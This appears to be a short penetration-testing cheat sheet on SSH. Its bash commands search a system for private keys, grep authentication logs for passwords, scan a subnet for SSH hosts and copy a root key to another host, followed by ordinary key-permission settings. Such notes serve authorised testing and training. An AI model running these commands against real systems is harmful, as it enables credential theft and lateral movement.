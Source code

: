 # SSH

### SSH File Hunting

{% code overflow="wrap" %}
```bash
#Find a PEM based Private key
find / -type f ! -path "/sys/*" ! -path "/proc/*"  -exec grep -l "PRIVATE KEY" {} \; 2>/dev/null

#check /.ssh directory permission
ls -al /.ssh/

#Typical file paths
user/.ssh/id_rsa
user/.ssh/authorized key
 
#Check if root ssh login is permitted
grep PermitRootLogin /etc/ssh/sshd_config

#Check if SSH accepts password / key based SSH
 
grep 'password' /var/log/secure
grep 'password' /var/log/auth.log
grep 'password' /var/log/auth.log | tail -n 10

#Find SSH hosts
nmap -p 22 --open -sV --script sshv1.nse 10.11.1.1-254 | grep "Nmap scan report" | cut -d" " -f5 > ssh_host_list.txt
 
#Copy the key and change permissions
 
rcp /.ssh/root_key root@192.168.142.153:/root/Downloads
chmod 600 root_key
 
#SSH Permission
 
chmod 700 ~/.ssh
chmod 644 ~/.ssh/authorized_keys
chmod 644 ~/.ssh/known_hosts
chmod 644 ~/.ssh/config
chmod 600 ~/.ssh/id_rsa
chmod 644 ~/.ssh/id_rsa.pub
```
{% endcode %}

&#x20;



&#x20;



&#x20;



&#x20;



&#x20;





&#x20;



&#x20;



&#x20;
